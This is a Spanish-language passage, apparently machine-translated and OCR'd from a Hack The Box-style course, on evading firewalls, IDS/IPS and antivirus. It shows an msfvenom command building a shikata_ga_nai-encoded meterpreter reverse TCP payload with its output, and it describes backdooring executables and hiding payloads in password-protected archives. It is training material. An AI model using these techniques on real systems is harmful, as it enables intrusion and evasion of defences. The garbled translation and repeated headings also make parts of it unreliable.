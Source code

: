 En su mayor parte, cuando un objetivo lanza un ejecutable trasero, no parece suceder nada, lo que puede generar sospechas en algunos casos. Para mejorar nuestras posibilidades, necesitamos activar la continuación de la ejecución normal de la aplicación lanzada mientras extraemos la carga útil en un hilo separado de la aplicación principal. Lo hacemos con el`-k`bandera como aparece arriba. Sin embargo, incluso con el`-k`Flager en funcionamiento, el objetivo solo notará la puerta trasera si inicia la plantilla ejecutable trasera desde un entorno CLI. Si lo hacen, una ventana separada aparecerá con la carga útil, que no cerrará hasta que terminemos de ejecutar la interacción de la sesión de carga útil en el objetivo.

---

# **Archivo**

Archivar una información como un archivo, carpeta, script, ejecutable, imagen o documento y colocar una contraseña en el archivo evita muchas firmas antivirus comunes hoy. Sin embargo, la desventaja de este proceso es que se plantearán como notificaciones en el tablero de alarma AV que no se pueden escanear debido a que se bloquean con una contraseña. Un administrador puede optar por inspeccionar manualmente estos archivos para determinar si son maliciosos o no.

### **Generación de carga útil**

Firewall e IDS/IPS evasión

```
xnoxos@htb[/htb]$ msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -e x86/shikata_ga_nai -a x86 --platform windows -o ~/test.js -i 5Attempting to read payload from STDIN...
Found 1 compatible encoders
Attempting to encode payload with 5 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 27 (iteration=0)
x86/shikata_ga_nai succeeded with size 54 (iteration=1)
x86/shikata_ga_nai succeeded with size 81 (iteration=2)
x86/shikata_ga_nai succeeded with size 108 (iteration=3)
x86/shikata_ga_nai succeeded with size 135 (iteration=4)
x86/shikata_ga_nai chosen with final size 135
Payload size: 135 bytes
Saved as: /home/user/test.js

```

Firewall e IDS/IPS evasión

```
xnoxos@htb[/htb]$ cat test.js�+n"����t$�G4ɱ1zz��j�V6����ic��o�Bs>��Z*�����9vt��%��1�<...SNIP...>
�Qa*���޴��RW�%Š.\�=;.l�T���XF���T��

```

Si verificamos contra Virustotal para obtener una línea de base de detección de la carga útil que generamos, los resultados serán los siguientes.

### **Virusta**

Firewall e IDS/IPS evasión
